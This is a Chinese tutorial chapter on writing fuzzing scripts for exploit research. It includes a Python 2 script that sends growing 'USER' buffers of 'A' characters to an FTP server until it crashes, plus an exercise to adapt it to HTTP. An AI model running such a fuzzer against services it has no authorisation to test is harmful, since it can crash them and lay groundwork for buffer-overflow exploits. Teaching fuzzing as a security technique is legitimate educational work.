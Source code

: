 ## 编写Fuzz测试脚本

 这一章将会演示教你如何写一个属于自己的Fuzz测试脚本，当我们进行exploit研究和开发的时候就可以使用脚本语言发送大量的测试数据给受害者机器，但是这个错误数据很容易引发应用程序崩溃掉。而Python却不同，当程序崩溃之后，此时你的程序会暂时断开连接，随后会立即创建一个新的连接继续执行。
 
 下面我们首先要解决的问题是应用程序如何处理用户输入的内容，因为在进行模糊测试的时候，我们会不定时的想到一些新的思路然后把数据发送给受害者机器上面来测试，这基本思路就是先与服务器建立连接,然后发送测试数据给服务器，通过while循环语句来判断是否成功，即使出现错误也会处理掉:
 
 下面是我们的扫描器伪代码:
 
 ```
 #导入socket,sys模块，如果是web服务那么还需要导入httplib,urllib等模块
 <import modules> 

#设置ip/端口
#调用脚本: ./script.py <RHOST> <RPORT>
RHOST = sys.argv[1]
RPORT = sys.argv[2]
 
#定义你的测试数据,并且设置测试数据范围值
buffer = '\x41'*50
 
#使用循环来连接服务并且发送测试数据
while True:
  try:
    # 发送测试数据
    # 直到递增到50
    buffer = buffer + '\x41'*50
  except:
    print "Buffer Length: "+len(buffer)
    print "Can't connect to service...check debugger for potential crash"
```

上面这个脚本框架能够适用于各种服务，你可以根据你的服务(https,http,mysql,sshd)编写特定模糊测试脚本.下面我们演示一个基于"USER"命令的ftp服务器模糊测试脚本:

```
#导入你将要使用的模块，这样你就不用去自己实现那些功能函数了
import sys, socket
from time import sleep
 
#声明第一个变量target用来接收从命令端输入的第一个值
target = sys.argv[1]
#创建50个A的字符串 '\x41'
buff = '\x41'*50
 
# 使用循环来递增至声明buff变量的长度50
while True:
  #使用"try - except"处理错误与动作
  try:
    # 连接这目标主机的ftp端口 21
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.settimeout(2)
    s.connect((target,21))
    s.recv(1024)
 
    print "Sending buffer with length: "+str(len(buff))
    #发送字符串:USER并且带有测试的用户名
    s.send("USER "+buff+"\r\n")
    s.close()
    sleep(1)
    #使用循环来递增直至长度为50
    buff = buff + '\x41'*50
 
  except: # 如果连接服务器失败，我们就打印出下面的结果
    print "[+] Crash occured with buffer length: "+str(len(buff)-50)
    sys.exit()
```

上面这段代码演示了一个基本的Fuzz测试脚本，但是值得注意的是执行上面的代码，提交'\x41'字符可能不会让你成功的拿下受害主机，但是你可以尝试组合一些其他的字符(用户词典).此外还有一个更加强大的Fuzz测试工具[Spike](https://www.blackhat.com/presentations/bh-usa-02/bh-us-02-aitel-spike.ppt)和[具体介绍与演示](http://resources.infosecinstitute.com/intro-to-fuzzing/),它可以一次性的测试大量数据，并且能让你提高成功概率.

**练习**
大家可以把上面的ftp测试换成http测试，这里提示:你可能需要使用httplib/urllib.
